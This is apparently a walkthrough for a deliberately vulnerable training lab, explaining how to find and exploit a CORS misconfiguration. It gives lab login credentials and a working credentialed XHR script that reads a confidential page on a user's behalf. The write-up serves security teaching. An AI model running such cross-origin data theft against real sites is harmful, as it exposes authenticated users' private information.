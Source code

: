 # CORS misconfiguration

CORS defines a way in which a browser and server can interact to determine whether or not it is safe to allow the cross-origin request. It allows for more freedom and functionality than purely same-origin requests.

We find a lot of vulnerabilities these days that have CORS misconfigured.
This misconfiguration allows to make XHR get requests on an authenticated users behalf
and steal sensitive information from the server!

#### The issue?

Rather than explaining myself please refer to the following blog to read all about the 
issue at hand:

The source is found [here](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)


### Spoiler 1 - discovery

You can find this link after loggin in with either:

```
link: http://0.0.0.0:8081/login
user : admin:admin
```

Or by finding a obscure backdoor by running "dirb" against the web-server


Please refer to the following page:

```
http://0.0.0.0:8081/confidential
```

Here we will find this page:

![target page](../img/cors-page.png)

Whenever we do a GET request on this page and we add an origin header to the request we 
create the following response.

![request/response](../img/req-resp-cors.png)


### Spoiler 2 - exploitation

Now, the idea is to make an XHR GET request on the authenticated users' behalf

To do so we create a HTML page with the following script in it:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'http://0.0.0.0:8081/confidential', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        document.getElementsByTagName("p")[0].innerHTML = req.responseText;
    }
</script>

<p></p>
```

This script will make a cross origin request to the target application and puts the output of the 
response in the paragrapgh tags.

Now, this attack works pretty much like CSRF, it leans on the behaviour of your browsers cookie jar
and the appending of the session cookie to requests. 

Remeber this CORS header

```
Access-Control-Allow-Credentials: true
```
This header wil ultimately help us achieve our goal!

Now look at the result:

![result](../img/cors-result.png)

Highlighed in red we see the target page. If you look at what is highlighted in blue you see
this is just a local HTML file that does the XHR get request to the target server.

Highlighted in purple you see the super secret information as a result.

*Disclaimer:* In a real situation you wil most likely need to build your own small web-server
to do the XHR GET request from. 